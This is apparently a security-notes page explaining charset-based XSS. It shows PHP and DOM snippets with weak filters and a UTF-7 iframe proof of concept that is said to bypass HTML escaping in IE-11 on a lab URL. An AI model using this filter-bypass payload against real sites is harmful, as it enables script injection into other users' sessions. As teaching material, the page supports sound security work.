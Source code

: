```yaml
---
title: Charset XSS
---
```


# Charset XSS

Charset XSS is useful in cases where application filters HTML special characters like `<` & `>`, You might have seen these characters converting back into `&gt;` & `&lt;` respectively.

For example consider the following codes

```text
<?php
if(isset($_GET['xss'])) {
    echo htmlspecialchars($_GET['xss']);
}
?>
```

and similarly for DOM XSS code

```text
<html>
    <head>
        <title>test page</title>
    </head>
    <body>
        <script>
            var bad_string = window.location.hash.substring(1);
            var regex = /<\>/gi;
            var good_string = bad_string.replace(regex,'')
            document.write(good_string);
        </script>
    </body>
</html>
```

using charset XSS it is possible to bypass html special characters filtration

## Requirements

* Target site not implemented charset
* Target site implemented the wrong charset

## Example works in IE-11

Consider the same DOM XSS code

{{< details xss.html open >}}

```text
<html>
    <head>
        <title>test page</title>
    </head>
    <body>
        <script>
            var bad_string = window.location.hash.substring(1);
            var regex = /<\>/gi;
            var good_string = bad_string.replace(regex,'')
            document.write(good_string);
        </script>
    </body>
</html>
```
{{< /details >}}

Since this page does not have any charset defines that means it fulfil the requirements for charset XSS. In order to do it, we will create a document with UTF-7 encoding and load the vulnerable URL in the iframe.

{{< details iframe.html open >}}
```text
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-7">
</head>
<body>
    <iframe src="http://lab.com:8888/common/c.html#<p>+ADw-svg/onload+AD0-alert(1444444)+AD4-</p>" frameborder="1"
        height="300" width="500"></iframe>
</body>
</html>
```

{{< /details >}}

As soon as we access iframe.html we triage javaScript code execution since xss.html doesn't have any charset defined and hence browser inherit top frame's charset which is UTF-7.

